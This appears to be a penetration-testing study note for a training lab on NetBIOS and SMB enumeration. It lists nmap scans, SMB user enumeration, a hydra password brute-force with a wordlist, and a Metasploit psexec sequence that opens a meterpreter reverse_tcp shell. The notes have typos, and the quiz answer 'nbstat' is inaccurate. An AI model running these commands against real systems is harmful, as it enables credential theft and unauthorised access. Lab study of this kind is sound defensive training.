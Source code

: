 - Check for Vulnerabilities - `nmap --script smb-vuln* -p 139,445 [ip]`





# NetBIOS & SMB Enumberation

## NetBIOS (Network Basic Input/Output System)

NetBIOS is an API and a set of network protocols for providing communicaation services over a local network. It's used primarily to allow applications on different computers to find and interact with each other on a network

Ports:
137 ---> Name Service
138 ---> Datagram Service
139 ---> Session Service over UDP and TCP

- __1.`nmblookup <ip>`__
- __2.`nbtscan <ip>`__

> Note: Sometimes NetBIOS service runs on UDP so go for -sU in Nmap
  - `nmap -sU -p 137 <ip>`
  - `nmap -sU -sV -T4 --script nbstat.nse -p 137 -Pn -n <ip>` 
# Q&A
- __1.Which tool is commonly used to perform basic NetBIOS enumeration?__
  - __Ans. `nbstat`__

## SMB (Server Message Block)

SMB is a network file sharing protocol that allows computers on a network to share files,printers, and other resources. It is the primary protocol used in Windows networks for these purposes.

Ports:
445 ---> is the direct SMB port.
139 ---> is used for SMB when it's utilizing NetBIOS over TCP/IP.

  - `nmap -sV -p 139,445 demo.ine.local`
  - `nmap -p 445 --script smb-protocols`

- __nmap__
  - __`nmap -p 445 --script smb-enum-users <ip>`__
  - __Save the users in the user.txt for brute force attack__
- __hydra__
  - __`hydra -L user.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip> smb`__
  - __You can use psexec module in metasploit__
- __msfconsole__
  - __`service postgresql start & msfconsole`__
  - __`search psexec`__
  - __`set RHOSTS <target ip>`__
  - __`set SMBUser <username>`__
  - __`set SMBPass <password>`__
  - __`exploit`__
  - > __If you are not getting then switch to x64 bit meterpreter session__
    - __`set payload windows/x64/meterpreter/reverse_tcp
    - __`exploit`__
  - __`sysinfo`__
  - __`shell`__
  - > __make this session in the background__
